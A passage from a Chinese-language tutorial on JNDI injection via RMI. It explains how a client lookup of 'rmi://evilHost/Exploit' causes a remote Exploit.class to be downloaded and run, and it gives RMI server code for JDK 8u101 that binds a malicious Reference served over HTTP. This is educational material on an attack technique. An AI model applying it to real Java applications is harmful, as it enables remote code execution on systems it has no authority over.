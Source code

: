 此时假设使用rmi协议 客户端通过lookup函数请求上面bind设置的Exploit

```plain
Context ctx = new InitialContext();
ctx.lookup("rmi://evilHost/Exploit");
```

因为绑定的是Reference对象 客户端在本地CLASSPATH 查找Exploit类 如果没有 则根据设定的Reference属性 到URL [http://evilHost/Exploit.class](http://evilhost/Exploit.class) 获取构造对象实例 构造方法中的恶意代码会被执行

[![](assets/1699929746-63d2ffc490da1186e0fadfc36a6ef8a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001933-c45cb670-7f1b-1.png)

### RMI 低版本JDK

此处实验的jdk版本是 8u101

服务端代码

```plain
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;

public class SERVER {

    public static void main(String args[]) throws Exception {

        Registry registry = LocateRegistry.createRegistry(1099);
        Reference aa = new Reference("ExecTest.class", "ExecTest", "http://127.0.0.1:8081/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(aa);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/aa'");
        registry.bind("aa", refObjWrapper);

    }

}
```
